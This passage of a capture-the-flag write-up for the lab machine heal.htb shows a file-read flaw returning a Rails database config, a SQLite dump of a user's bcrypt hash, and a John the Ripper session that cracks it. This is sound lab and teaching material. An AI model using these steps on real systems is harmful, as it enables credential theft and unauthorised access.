 ```http
Referer: http://heal.htb/
```

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 07 Feb 2025 07:53:07 GMT
Content-Type: application/x-yaml
Content-Length: 636
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="database.yml"; filename*=UTF-8''database.yml
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: f6341a0e-eafa-45db-b6f2-254f7ac8d64b
x-runtime: 0.002526
vary: Origin

# SQLite. Versions 3.8.0 and up are supported.
# gem install sqlite3
#
# Ensure the SQLite 3 gem is defined in your Gemfile
# gem "sqlite3"
#
default: &default
adapter: sqlite3
pool: <%= ENV.fetch("RAILS_MAX_THREADS") { 5 } %>
timeout: 5000

development:
<<: *default database: storage/development.sqlite3 # Warning: The database defined as "test" will be erased and # re-generated from your development database when you run "rake" . # Do not set this db to the same as development or production. test: <<: *default database: storage/test.sqlite3 production: <<: *default database: storage/development.sqlite3
```
- Seeing that we have found the location of the database: `storage/development.sqlite3`
- downloading the file we can access it through `sqlite3`:
```sql
sqlite> select * from users;
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
```
- Cracking password:
```
# john --wordlist=`fzf-wordlists` ralph.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 16 OpenMP threads
Note: Passwords longer than 24 [worst case UTF-8] to 72 [ASCII] truncated (property of the hash)
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
147258369        (?)
1g 0:00:00:04 DONE (2025-02-07 19:05) 0.2188g/s 126.0p/s 126.0c/s 126.0C/s 12345678910..parola
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
- the password only works to login on `http://heal.htb` and `http://take-survey.heal.htb`
- Retrying the LFI gives the same permissions even as admin.